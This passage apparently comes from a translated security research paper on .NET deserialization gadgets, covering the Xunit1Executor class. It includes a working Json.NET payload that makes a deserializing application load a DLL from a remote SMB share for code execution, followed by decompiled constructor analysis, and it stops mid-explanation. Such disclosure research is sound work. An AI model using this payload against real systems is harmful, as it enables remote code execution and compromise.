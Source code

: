 代码段 40 Grpc.Core - Mac library loading

#### 2.1 Xunit Runner Utility – Xunit1Executor 远程 DLL 加载

目标类：`Xunit.Xunit1Executor`

适用的序列化器：`Json.Net`、`XamlReader`、`MessagePack` 和其他潜在的序列化器。

适用的.NET 版本：.NET Framework

最近测试的版本：2.5.1

效果：通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行。可以传递包含 `Xunit.Sdk.Executor` 类的 .NET Framework DLL，该类实现了一个接受单个字符串的构造函数 —— `Executor(string)`。此构造函数将在反序列化过程中被调用。

漏洞利用代码（Json.NET）：

```plain
{ 
    "$type":"Xunit.Xunit1Executor, xunit.runner.utility.net452, Version=2.4.2.0,  
Culture=neutral, PublicKeyToken=8d05b1bb7a6fdb6c", 
    "useAppDomain":true, 
     "testAssemblyFileName":"\\\\192.168.1.100\\poc\\xunit.dll" 
}
```

代码段 41 Xunit1Executor gadget

描述： `Xunit.Xunit1Executor` 类定义了一个单一的公共构造函数，需要多个参数。

```plain
public Xunit1Executor(bool useAppDomain, string testAssemblyFileName, string 
configFileName = null, bool shadowCopy = true, string shadowCopyFolder = null) 
{ 
    this.appDomain = AppDomainManagerFactory.Create(useAppDomain, 
testAssemblyFileName, configFileName, shadowCopy, shadowCopyFolder); // [1] 
    this.xunitAssemblyPath =  
Xunit1Executor.GetXunitAssemblyPath(testAssemblyFileName); // [2] 
    this.xunitAssemblyName =  
AssemblyName.GetAssemblyName(this.xunitAssemblyPath); 
    this.executor = this.CreateObject("Xunit.Sdk.Executor", new object[] 
    { 
        testAssemblyFileName 
    }); // [3] 
    this.TestFrameworkDisplayName = string.Format(CultureInfo.InvariantCulture, 
"xUnit.net {0}", new object[] 
    { 
        AssemblyName.GetAssemblyName(this.xunitAssemblyPath).Version 
    }); 
}
```

代码段 42 Xunit1Executor constructor

在\[1\]处，调用了 `AppDomainManagerFactory.Create`，并提供了受攻击的输入。如果 `useAppDomain` 设置为 true，则将返回 `Xunit.AppDomainManager_AppDomain` 的对象。该对象有一个名为 AppDomain 的成员，用于存储 `.NET AppDomain`。

这个 `.NET AppDomain` 对象是通过以下方法创建的（为了可读性省略了几个中间调用）：
